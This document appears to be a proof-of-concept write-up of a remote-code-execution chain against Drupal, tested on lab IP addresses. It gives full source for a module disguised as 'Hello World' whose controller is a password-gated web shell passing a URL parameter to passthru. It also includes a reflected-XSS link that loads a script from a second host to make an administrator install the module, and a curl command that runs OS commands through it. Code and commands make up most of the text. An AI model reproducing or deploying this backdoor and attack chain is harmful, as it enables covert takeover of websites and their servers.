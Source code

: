 # [RCE] Install Module

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [create Drupal module containing PHP payload] backdoor source code

(`hello_world.info.yml`)

```
name: hello_world
type: module
description: 'Hello World custom module'
package: custom
version: 1.0
core_version_requirement: ^10
```

(`hello_world.routing.yml`)

```
hello_world.hellomsg:
  path: '/hello-world'
  defaults:
    _controller: 'Drupal\hello_world\Controller\HelloWorldController::message'
    _title: 'Hello World!!'
  requirements:
    _permission: 'access content'
```

(`src/Controller/HelloWorldController.php`)

```
<?php

namespace Drupal\hello_world\Controller;

class HelloWorldController {
  public function message() {
    if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
    return [
      '#markup' => 'Hello World message from custom module'
    ];
  }
}
```

2. [create Drupal module containing PHP payload] create Drupal module

```
tar cvf hello_world.tar.gz *
```

3. victim user (with administrative privileges) logs in

http://192.168.5.17/user/login

4. victim user clicks link

```
http://192.168.5.17/test/rxss.php?q=<script src=http://192.168.5.13/installModuleDrupal.js></script>
```

5. execute OS command

```
curl -s "http://192.168.5.17/hello-world?pass=test&cmd=id" | head -n 1
```

6. [optional] uninstall module

*Drupal -> Extend -> [tab] Uninstall -> (filter by name) hello -> (mark checkbox) Hello World -> Uninstall -> Uninstall*

## Screenshots

![Image](screenshots/Drupal_-_install_module_-_1-1.png)
